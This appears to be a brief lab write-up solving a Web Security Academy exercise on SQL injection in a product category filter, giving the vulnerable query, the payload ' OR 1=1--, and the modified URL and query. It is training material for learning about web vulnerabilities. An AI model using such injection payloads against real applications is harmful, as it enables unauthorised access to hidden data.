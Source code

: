 # Retrieving hidden data

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

Target URL:

```
https://ac6d1ff11f66bccd816d5ebd00c40052.web-security-academy.net/filter?category=Gifts
```

Solution:

```sql
' OR 1=1--
```

Modified URL:

```
https://ac6d1ff11f66bccd816d5ebd00c40052.web-security-academy.net/filter?category=Gifts'+OR+1=1--
```

Modified SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```